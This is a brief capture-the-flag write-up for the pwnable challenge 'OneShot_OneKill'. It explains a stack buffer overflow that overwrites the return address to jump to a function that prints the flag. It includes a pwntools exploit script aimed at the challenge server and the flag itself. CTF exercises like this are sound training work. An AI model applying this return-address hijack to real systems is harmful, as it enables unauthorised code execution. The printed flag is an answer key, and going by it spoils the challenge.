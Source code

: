 # OneShot_OneKill

## Pwnable - Points: 1

> You have just one bullet.... kill him!
>
> Author: Y311J(신재욱)
>
> 
>
> nc prob.vulnerable.kr 20026
>
> [oneshot_onekill](oneshot_onekill)
>

Overflow the buffer with 300 bytes + 4 bytes EBP to get code execution. The binary contains a function `oneshot`, that does `cat flag`, so simply jump to it.

Exploit script:

```python
from pwn import *

# p = process('oneshot_onekill')
p = remote('prob.vulnerable.kr', 20026)

oneshot = 0x80485a5

p.sendline('A' * 300 + 'A' * 4 + p32(oneshot))
print p.recvall()
```

flag: `KorNewbie{Nice_Sh0T_N3wbie_Pwner!$#}`